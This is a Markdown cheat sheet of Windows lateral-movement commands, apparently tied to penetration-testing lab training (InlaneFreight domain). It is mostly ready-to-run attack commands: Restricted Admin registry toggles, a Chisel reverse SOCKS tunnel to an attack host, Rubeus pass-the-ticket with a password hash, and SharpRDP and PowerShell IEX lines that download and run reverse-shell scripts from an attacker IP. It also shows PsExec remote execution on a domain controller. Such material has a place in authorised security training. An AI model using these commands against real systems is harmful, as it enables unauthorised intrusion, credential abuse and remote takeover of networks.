 ## Windows Lateral Movement Introduction and Command Line cheatsheet.

> Lateral movement refers to the techniques we use to move through a network after gaining initial access. 
> By understanding lateral movement, attackers and defenders can better navigate and secure networks. 
> This knowledge allows defenders to implement more effective security measures and helps attackers identify and exploit weaknesses in network defenses, ultimately leading to a more robust and resilient security posture. 


### RDP Commands

- Open Remote Desktop Connection client (Windows)

	
	C:\> mstsc.exe

- Open Remote Desktop Connection client in Restricted Admin mode 

	
	C:\> mstsc.exe /restrictedAdmin
	

- Query, Disable, and Enable DisableRestrictedAdmin value in LSA settings. 

	
	C:\> reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin 
	
	C:\> reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /d 0 /t REG_DWORD 
	
	C:\> reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /d 1 /t REG_DWORD 
	

- Chisel Server & Client. 

	
	$ ./chisel server --reverse --port 9999
	
	C:\> chisel.exe client "ATTACK HOST":"PORT" R:socks
	

- Rubeus Pass the Ticket 

	PS C:\> .\Rubeus.exe createnetonly /program:powershell.exe /show 
	
	PS C:\> .\Rubeus.exe asktgt /user:"USER" /rc4:"HASH" /domain:targetdomain.local /ptt 
	

- Execute Powershell command on Windows Server using SharpRDP

	
	C:\> SharpRDP.exe computername=dc01 command="powershell.exe IEX(New-Object Net.WebClient).DownloadString('http://"ATTACK-IP:PORT"/shell.ps1')" username=inlanefreight\"USER" password="PASS"

	PS C:\> IEX(IWR -Uri 'http://"ATTACK IP:PORT"/rev.ps1' -OutFile C:\>rev.ps1 -UseBasicParsing);C:\>rev.ps1 
	

### SMB Commands


- Execute command on remote server using PsExec

	PS C:\> .\PsExec.exe \\DC01 -i -s -u INLANEFREIGHT\'USER' -p 'PASS' cmd
